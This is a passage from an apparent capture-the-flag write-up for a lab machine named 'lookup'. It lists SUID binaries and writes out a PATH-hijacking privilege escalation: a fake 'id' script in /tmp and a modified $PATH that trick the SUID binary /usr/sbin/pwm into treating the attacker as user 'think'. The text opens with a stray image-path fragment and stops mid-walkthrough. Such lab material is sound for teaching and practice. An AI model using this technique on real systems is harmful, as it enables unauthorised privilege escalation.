 ```  /usr/sbin/pwm```with the permission string ```-rwsr-sr-x``` and owner ```root```.
     1288     51 -rwsr-xr--   1 root     systemd-resolve    51344 Oct 25  2022 /snap/core20/1974/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1660    463 -rwsr-xr-x   1 root     root              473576 Apr  3  2023 /snap/core20/1974/usr/lib/openssh/ssh-keysign
     3279     24 -rwsr-xr-x   1 root     root               22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
    14400    464 -rwsr-xr-x   1 root     root              473576 Aug  4  2023 /usr/lib/openssh/ssh-keysign
     3387     16 -rwsr-xr-x   1 root     root               14488 Jan 11  2024 /usr/lib/eject/dmcrypt-get-device
     2045     52 -rwsr-xr--   1 root     messagebus         51344 Jan 11  2024 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     9154     20 -rwsr-sr-x   1 root     root               17176 Jan 11  2024 /usr/sbin/pwm
      491     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
      672     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
      480     88 -rwsr-xr-x   1 root     root               88464 Nov 29  2022 /usr/bin/gpasswd
      178     84 -rwsr-xr-x   1 root     root               85064 Nov 29  2022 /usr/bin/chfn
     2463    164 -rwsr-xr-x   1 root     root              166056 Apr  4  2023 /usr/bin/sudo
      184     52 -rwsr-xr-x   1 root     root               53040 Nov 29  2022 /usr/bin/chsh
      547     68 -rwsr-xr-x   1 root     root               68208 Nov 29  2022 /usr/bin/passwd
     9965     56 -rwsr-xr-x   1 root     root               55528 May 30  2023 /usr/bin/mount
    14014     68 -rwsr-xr-x   1 root     root               67816 May 30  2023 /usr/bin/su
     1235     44 -rwsr-xr-x   1 root     root               44784 Nov 29  2022 /usr/bin/newgrp
     3277     32 -rwsr-xr-x   1 root     root               31032 Feb 21  2022 /usr/bin/pkexec
     9972     40 -rwsr-xr-x   1 root     root               39144 May 30  2023 /usr/bin/umount
```

Running the command, we can see is executing ```id``` to extract the user ID and is looking for a file called ```.passwords```

```bash
www-data@lookup:/home/think$ cd /
cd /
www-data@lookup:/$ ./usr/sbin/pwm
./usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```
We cannot create the www-data directory in ```/home``` because of permissions, but we can trick ```./usr/sbin/pwm``` to run the command ```id``` from a location that we can control by:
* creating a fake ```id``` command and placing it in ```/tmp/id```
* making the ```/tmp/id``` executable
* add ```/tmp``` to ```$PATH```
* checking that ```/tmp``` has been added to ```$PATH```

```bash
echo 'echo "uid=33(think) gid=33(think) groups=33(think)"' >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
$PATH
bash: /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin: No such file or directory # expected output
```
